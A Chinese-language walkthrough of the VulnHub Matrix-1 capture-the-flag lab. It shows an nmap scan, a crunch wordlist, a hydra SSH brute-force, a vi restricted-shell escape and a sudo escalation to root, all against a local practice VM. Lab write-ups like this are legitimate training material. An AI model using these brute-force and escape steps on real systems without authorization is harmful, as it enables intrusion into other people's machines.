 # Matrix-1

## 环境

虚拟机平台：Oracle VM VirtualBox

攻击机：Kali（IP：192.168.56.102）

靶机：Matrix-1（IP：192.168.56.107）

下载：https://www.vulnhub.com/entry/matrix-1,259/

## Let's go

```
nmap -A 192.168.56.107
```

![](./img/Matrix1-01.png)

> **审查发现一串base64的编码**

![](./img/Matrix1-02.png)

```
echo 'ZWNobyAiVGhlbiB5b3UnbGwgc2VlLCB0aGF0IGl0IGlzIG5vdCB0aGUgc3Bvb24gdGhhdCBiZW5kcywgaXQgaXMgb25seSB5b3Vyc2VsZi4gIiA+IEN5cGhlci5tYXRyaXg=' | base64 -d
```

![](./img/Matrix1-03.png)

![](./img/Matrix1-04.png)

```
cat ./下载/Cypher.matrix
```

![](./img/Matrix1-05.png)

> **虽然看不懂，但是搜索发现是 brainfuck ，我们可以进行解密**
>
> **推荐网站：http://ctf.ssleye.com/brain.html**

![](./img/Matrix1-06.png)

> **我们得到了密码 'k1ll0r\*\*'，虽然不完整但我们可以制作字典进行爆破**

```
crunch 8 8 -t k1ll0r%@ -o 1.txt
hydra -l guest -P ./1.txt -vV 192.168.56.107 ssh
```

![](./img/Matrix1-07.png)

> **登录发现我们拿到一个受限的shell，不过 vi 可以使用**

```
:!/bin/bash
export PATH=$PATH:/bin/
export PATH=$PATH:/usr/bin
```

![](./img/Matrix1-08.png)

![](./img/Matrix1-09.png)

```
sudo -l
```

![](./img/Matrix1-10.png)

```
sudo sh
cd /root
cat flag.txt
```

![](./img/Matrix1-11.png)